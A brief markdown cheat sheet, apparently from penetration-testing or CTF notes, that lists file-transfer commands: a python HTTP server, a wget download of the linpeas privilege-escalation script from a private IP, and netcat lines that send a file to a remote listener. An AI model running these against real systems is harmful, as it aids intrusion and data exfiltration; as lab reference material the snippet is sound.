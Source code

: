 #### HTTP

```
python3 -m http.server 80
wget http://10.10.10.10/linpeas.sh
```

#### TCP (netcat)

```
nc -nv 10.10.14.18 9876 < file
nc -nvlp 9876 > file
```